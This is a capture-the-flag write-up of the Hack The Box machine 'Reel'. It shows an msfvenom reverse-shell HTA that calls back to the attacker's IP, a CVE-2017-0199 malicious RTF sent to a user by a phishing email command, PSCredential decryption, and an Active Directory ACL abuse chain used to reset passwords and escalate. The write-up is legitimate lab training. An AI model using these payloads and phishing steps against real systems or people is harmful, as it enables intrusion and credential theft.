


# HTB - Reel

#### Ip: 10.10.10.77
#### Name: Reel
#### Difficulty: Hard

----------------------------------------------------------------------


### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.77 -sC -sV      
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-15 10:18 CDT
Nmap scan report for 10.10.10.77
Host is up (0.070s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_05-29-18  12:19AM       <DIR>          documents
22/tcp    open  ssh          OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8220c3bd16cba29c88871d6c1559eded (RSA)
|   256 232bb80a8c1cf44d8d7e5e6458803345 (ECDSA)
|_  256 ac8bde251db7d838389b9c16bff63fed (ED25519)
25/tcp    open  smtp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe: 
|     220 Mail Service ready
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|   Hello: 
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help: 
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   SIPOptions: 
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|   TerminalServerCookie: 
|     220 Mail Service ready
|_    sequence of commands
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: HTB)
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49159/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.93%I=7%D=9/15%Time=650475F7%P=aarch64-unknown-linux-gnu%
SF:r(NULL,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Hello,3A,"220\x20Mai
SF:l\x20Service\x20ready\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.\
SF:r\n")%r(Help,54,"220\x20Mail\x20Service\x20ready\r\n211\x20DATA\x20HELO
SF:\x20EHLO\x20MAIL\x20NOOP\x20QUIT\x20RCPT\x20RSET\x20SAML\x20TURN\x20VRF
SF:Y\r\n")%r(GenericLines,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Ba
SF:d\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20comm
SF:ands\r\n")%r(GetRequest,54,"220\x20Mail\x20Service\x20ready\r\n503\x20B
SF:ad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20com
SF:mands\r\n")%r(HTTPOptions,54,"220\x20Mail\x20Service\x20ready\r\n503\x2
SF:0Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20c
SF:ommands\r\n")%r(RTSPRequest,54,"220\x20Mail\x20Service\x20ready\r\n503\
SF:x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x2
SF:0commands\r\n")%r(RPCCheck,18,"220\x20Mail\x20Service\x20ready\r\n")%r(
SF:DNSVersionBindReqTCP,18,"220\x20Mail\x20Service\x20ready\r\n")%r(DNSSta
SF:tusRequestTCP,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SSLSessionReq
SF:,18,"220\x20Mail\x20Service\x20ready\r\n")%r(TerminalServerCookie,36,"2
SF:20\x20Mail\x20Service\x20ready\r\n503\x20Bad\x20sequence\x20of\x20comma
SF:nds\r\n")%r(TLSSessionReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(K
SF:erberos,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SMBProgNeg,18,"220\
SF:x20Mail\x20Service\x20ready\r\n")%r(X11Probe,18,"220\x20Mail\x20Service
SF:\x20ready\r\n")%r(FourOhFourRequest,54,"220\x20Mail\x20Service\x20ready
SF:\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\
SF:x20of\x20commands\r\n")%r(LPDString,18,"220\x20Mail\x20Service\x20ready
SF:\r\n")%r(LDAPSearchReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(LDAP
SF:BindReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SIPOptions,162,"220
SF:\x20Mail\x20Service\x20ready\r\n503\x20Bad\x20sequence\x20of\x20command
SF:s\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence
SF:\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x
SF:20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20
SF:commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20s
SF:equence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r
SF:\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x2
SF:0of\x20commands\r\n");
Service Info: Host: REEL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m58s, deviation: 34m35s, median: 0s
| smb2-time: 
|   date: 2023-09-15T15:22:00
|_  start_date: 2023-09-15T15:12:36
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   302: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: REEL
|   NetBIOS computer name: REEL\x00
|   Domain name: HTB.LOCAL
|   Forest name: HTB.LOCAL
|   FQDN: REEL.HTB.LOCAL
|_  System time: 2023-09-15T16:22:04+01:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 220.81 seconds
```

Lots of output here. Lets go ahead and add HTB.LOCAL to our `/etc/hosts` file.

Starting at the top it looks like FTP has anonymous access enabled. Lets check that out:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ ftp HTB.LOCAL                             
Connected to HTB.LOCAL.
220 Microsoft FTP Service
Name (HTB.LOCAL:ryan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
229 Entering Extended Passive Mode (|||41001|)
125 Data connection already open; Transfer starting.
05-29-18  12:19AM       <DIR>          documents
226 Transfer complete.
ftp> cd documents
250 CWD command successful.
ftp> ls -la
229 Entering Extended Passive Mode (|||41003|)
125 Data connection already open; Transfer starting.
05-29-18  12:19AM                 2047 AppLocker.docx
05-28-18  02:01PM                  124 readme.txt
10-31-17  10:13PM                14581 Windows Event Forwarding.docx
226 Transfer complete.
ftp> mget *
mget AppLocker.docx [anpqy?]? y
229 Entering Extended Passive Mode (|||41005|)
125 Data connection already open; Transfer starting.
100% |********************************************************************************|  2047       27.38 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 9 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
2047 bytes received in 00:00 (27.28 KiB/s)
mget readme.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||41006|)
125 Data connection already open; Transfer starting.
100% |********************************************************************************|   124        1.94 KiB/s    00:00 ETA
226 Transfer complete.
124 bytes received in 00:00 (1.93 KiB/s)
mget Windows Event Forwarding.docx [anpqy?]? y
229 Entering Extended Passive Mode (|||41007|)
150 Opening ASCII mode data connection.
100% |********************************************************************************| 14581      103.29 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 51 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
14581 bytes received in 00:00 (103.07 KiB/s)
ftp> bye
221 Goodbye.
```

Taking a look at readme.txt we find a note mentioning sending emails with rtf attachments:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ cat readme.txt 
please email me any rtf format procedures - I'll review and convert.

new format / converted documents will be saved here.
```

Looking at the AppLocker.docx we find:

```text
AppLocker procedure to be documented - hash rules for exe, msi and scripts (ps1,vbs,cmd,bat,js) are in effect.
```

Trying to open 'Windows Event Forwarding.docx' we see the file is corrupted and can't be opened:


But we can use exiftool on the file to checkout the metadata and we discover an email address:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ exiftool Windows\ Event\ Forwarding.docx 

<SNIP>

Creator                         : nico@megabank.com
```

Ok interesting. It seems we may be able to send a malicious email to the nico user and try to catch a reverse shell.

Looking for exploits I find this GitHub walking us through the process: https://github.com/bhdresh/CVE-2017-0199

According to the GitHub page:

```text
Exploit toolkit CVE-2017-0199 - v4.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft Office RCE. It could generate a malicious RTF/PPSX file and deliver metasploit / meterpreter / other payload to victim without any complex configuration.
```

Lets give this a shot.

### Exploitation

First we'll need to create a reverse shell HTA file:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.72 LPORT=443 -f hta-psh -o shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7290 bytes
Saved as: shell.hta
```

Next we can use the GitHub exploit to generate a RTF file as mentioned in the readme.txt file:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ python2 cve-2017-0199_toolkit.py -M gen -t RTF -w click_me.rtf -u http://10.10.14.72/shell.hta -x 0
Generating normal RTF payload.

Generated click_me.rtf successfully
```

Now lets set up both a Python HTTP server as well as a NetCat listener, and attempt to send the malicious email with:

```text
sendEmail -t nico@megabank.com -f ryan@test.com -u "Hi!" -m "click me please" -a click_me.rtf -s 10.10.10.77
```

Nice, it worked!


From here we can grab the user.txt flag from Nico's desktop:


### Privilege Escalation

Also of interest in Nico's desktop is a file called cred.xml, which appears to have a password hash for user Tom:


To crack this PSCredential hash we can run:

```text
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
```


Armed with this password we can now SSH in as user Tom:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ ssh tom@HTB.LOCAL
tom@htb.local's password:
```

Taking a look in Tom's Desktop folder we find some interesting contents:

```text
 Directory of C:\Users\tom\Desktop\AD Audit                                                                                  

05/29/2018  09:02 PM    <DIR>          .                                                                                     
05/29/2018  09:02 PM    <DIR>          ..                                                                                    
05/30/2018  12:44 AM    <DIR>          BloodHound                                                                            
05/29/2018  09:02 PM               182 note.txt                                                                              
               1 File(s)            182 bytes                                                                                
               3 Dir(s)   4,979,924,992 bytes free                                                                           

tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt 
Findings:                                                                                                                    

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).                               

Maybe we should re-run Cypher query against other groups we've created.
```

And even more interesting, is there are ingestors in the BloodHound directory:


Trying to run the SharpHound.exe ingestor is blocked:

```text
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>.\SharpHound.exe                                                 
This program is blocked by group policy. For more information, contact your system administrator.
```

Unfortunately I was unable to move forward with using BloodHound or even running SharpHound on the target.

Looking more closely at the files I see there is a file called acls.csv, which actually may be just what we need.

Using impacket-smbserver I can copy the file back to my attacking machine to check it out.


Sorting through the contents to find ACL info on Tom, We see that Tom has WriteAccess to user Claire. 

And from there, Claire has WriteDacl rights over the Backup_Admins group, which seems promising. 




So from here we can use PowerView to change Claire's password (Note: You can see here the initial password I tried wasn't complex enough)


We can now SSH in as user Claire with the password we set:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ ssh claire@10.10.10.77
claire@10.10.10.77's password:
```

Now that we're logged in as user claire, lets add Tom to the Backup_Admins group:

```text
PS C:\Users\claire> net group BACKUP_ADMINS tom /add /domain
The command completed successfully.
```
Now we can SSH back in as user Tom and we'll be in the Backup_admins group.

Unfortunately we still can't access the root.txt flag:

```text
tom@REEL C:\Users\Administrator\Desktop>type root.txt
Access is denied.
```

But there is a directory called Backup Scripts, and inside we can find the administrator's password:


We can now SSH in as the administrator and grab the root.txt flag:


Thanks for following along!

-Ryan

----------------------------------------------------------------
